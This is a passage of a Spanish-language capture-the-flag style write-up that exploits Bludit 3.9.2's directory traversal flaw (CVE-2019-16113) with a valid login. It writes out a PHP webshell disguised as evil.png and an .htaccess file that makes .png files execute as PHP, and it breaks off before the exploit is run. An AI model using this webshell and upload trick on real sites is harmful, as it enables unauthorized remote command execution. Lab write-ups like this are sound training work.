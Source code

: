 Y estamos dentro.

<br>

<h2 id="Exploit2">Probando Exploit: Bludit 3.9.2 - Directory Traversal y Ganando Acceso a la Máquina Víctima</h2>

Como ya tenemos un usuario y contraseña válidos, es posible aplicar el **Exploit Bludit 3.9.2 - Directory Traversal**, que justamente necesita esto.

Vamos a copiarlo:
```bash
searchsploit -m multiple/webapps/48701.txt
  Exploit: Bludit 3.9.2 - Directory Traversal
      URL: https://www.exploit-db.com/exploits/48701
     Path: /usr/share/exploitdb/exploits/multiple/webapps/48701.txt
    Codes: CVE-2019-16113
 Verified: False
File Type: Python script, ASCII text executable
```

Analizando este Exploit, vemos varias cosillas:

* Lo principal, es que está hecho en **Python**, por lo que solo tendríamos que cambiarle el tipo de archivo para poder ejecutarlo.
* Tenemos instrucciones para crear una **Reverse Shell** de **PHP** que será almacenada en una imagen y luego crear un **archivo .htaccess** que será el que interprete el payload de la imagen.
* Tenemos instrucciones para modificar la URL, el usuario y la contraseña por los válidos para el login.
* Debemos abrir un listener que capturara la **Reverse Shell**.
* Y luego visitar el archivo creado en la ruta `url + /bl-content/tmp/temp/evil.png`, que ejecutara nuestra **Reverse Shell**.

Vamos a cambiar esto un poco, pues en vez de que se aplique una **Reverse Shell**, cargaremos una **WebShell de PHP**.

Esto porque si seguimos los pasos de cargar una **Reverse Shell**, no será una sesión estable por una tarea que se está ejecutando y que veremos más adelante.

Así que vayamos por pasos:

* Cambiando la extensión del Exploit a **.py**:
```bash
mv 48701.txt DT_Exploit.py
```

* Creando nuestra **WebShell de PHP**:
```bash
nano evil.png
-------------
<?php
	system($_REQUEST['cmd']);
?>
```

* Generando el **archivo .htaccess**:
```bash
echo "RewriteEngine off" > .htaccess
echo "AddType application/x-httpd-php .png" >> .htaccess
```
